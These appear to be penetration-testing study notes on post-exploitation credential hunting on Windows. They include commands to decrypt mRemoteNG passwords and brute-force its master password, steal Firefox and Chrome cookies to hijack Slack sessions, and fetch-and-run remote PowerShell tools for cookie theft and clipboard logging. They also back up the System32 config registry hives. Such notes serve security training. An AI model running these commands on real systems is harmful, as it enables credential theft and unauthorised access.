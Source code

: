 ## Data Sources
- Installed applications
- Installed services
  - Websites
  - File Shares
  - Databases
  - Directory Services (such as Active Directory, Azure AD, etc.)
  - Name Servers
  - Deployment Services
  - Certificate Authority
  - Source Code Management Server
  - Virtualization
  - Messaging
  - Monitoring and Logging Systems
  - Backups
- Sensitive Data
  - Keylogging
  - Screen Capture
  - Network Traffic Capture
  - Previous Audit reports
- User Information
  - History files, interesting documents (.doc/x,.xls/x,password./pass., etc)
  - Roles and Privileges
  - Web Browsers
  - IM Clients
 

**Identifying Common Applications
```
dir "C:\Program Files"
```

**Get Installed Programs via PowerShell & Registry Keys
```
$INSTALLED = Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* |  Select-Object DisplayName, DisplayVersion, InstallLocation
$INSTALLED += Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallLocation
$INSTALLED | ?{ $_.DisplayName -ne $null } | sort-object -Property DisplayName -Unique | Format-Table -AutoSize
```
- Contains mRemoteNG

**mRemoteNG

Saves connection info and credentials to a file called confCons.xml located at (%USERPROFILE%\APPDATA\Roaming\mRemoteNG). Hardcoded master password: mR3m

**Discover mRemoteNG Configuration Files
```
ls C:\Users\julio\AppData\Roaming\mRemoteNG
```

**mRemoteNG Configuration File - confCons.xml
```xml
<?XML version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="QcMB21irFadMtSQvX5ONMEh7X+TSqRX3uXO5DKShwpWEgzQ2YBWgD/uQ86zbtNC65Kbu3LKEdedcgDNO6N41Srqe" ConfVersion="2.6">
    <Node Name="RDP_Domain" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="096332c1-f405-4e1e-90e0-fd2a170beeb5" Username="administrator" Domain="test.local" Password="sPp6b6Tr2iyXIdD/KFNGEWzzUyU84ytR95psoHZAFOcvc8LGklo+XlJ+n+KrpZXUTs2rgkml0V9u8NEBMcQ6UnuOdkerig==" Hostname="10.0.0.10" Protocol="RDP" PuttySession="Default Settings" Port="3389"
    ..SNIP..
</Connections>
```
- If the user did not set a custom master password, we can use this script to decrypt the password: https://github.com/haseebT/mRemoteNG-Decrypt

**Decrypt the Password with mremoteng_decrypt
```
python3 mremoteng_decrypt.py -s "sPp6b6Tr2iyXIdD/KFNGEWzzUyU84ytR95psoHZAFOcvc8LGklo+XlJ+n+KrpZXUTs2rgkml0V9u8NEBMcQ6UnuOdkerig==" 
```

**Decrypt the Password with mremoteng_decrypt and a Custom Password
```
python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" -p admin
```

**For Loop to Crack the Master Password with mrmeoteng_decrypt
```
for password in $(cat /usr/share/wordlists/fasttrack.txt);do echo $password; python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" -p $password 2>/dev/null;done
```

## Abusing Cookies to Get Access to IM Clients

IM = instant messaging
- Microsoft Teams
- Slack

**Copy Firefox Cookies Database
```
copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
```

**Extract Slack Cookie from Firefox Cookies Database
```
python3 cookieextractor.py --dbpath "/home/plaintext/cookies.sqlite" --host slack --cookie d
```

**Add cookie to our browser with extension
https://cookie-editor.cgagnier.ca/


## Cookie Extraction from Chromium-based Browsers

**PowerShell Script - Invoke-SharpChromium
```ps
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1')
Invoke-SharpChromium -Command "cookies slack.com"
```

**Copy Cookies to SharpChromium Expected Location
```
copy "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Network\Cookies" "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Cookies"
```

**Invoke-SharpChromium Cookies Extraction
```
Invoke-SharpChromium -Command "cookies slack.com"
```


## Clipboard

https://github.com/inguardians/Invoke-Clipboard/blob/master/Invoke-Clipboard.ps1

**Monitor the Clipboard with PowerShell
```
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')
Invoke-ClipboardLogger
```
- Metasploit has built-in keylogger


## Roles and Services

Servers:
- File and Print Servers
- Web and Database Servers
- Certificate Authority Servers
- Source Code Management Servers
- Backup Servers

**Attacking Backup Servers

**restic - Initialize Backup Directory
```
mkdir E:\restic2; restic.exe -r E:\restic2 init
```

**restic - Back up a Directory
```
$env:RESTIC_PASSWORD = 'Password'
restic.exe -r E:\restic2\ backup C:\SampleFolder
```

**restic - Back up a Directory with VSS
```
restic.exe -r E:\restic2\ backup C:\Windows\System32\config --use-fs-snapshot
```

**restic - Check Backups Saved in a Repository
```
restic.exe -r E:\restic2\ snapshots
```

**restic - Restore a Backup with ID
```
restic.exe -r E:\restic2\ restore 9971e881 --target C:\Restore
```
- If we navigate to C:\Restore, we will find the directory structure where the backup was taken

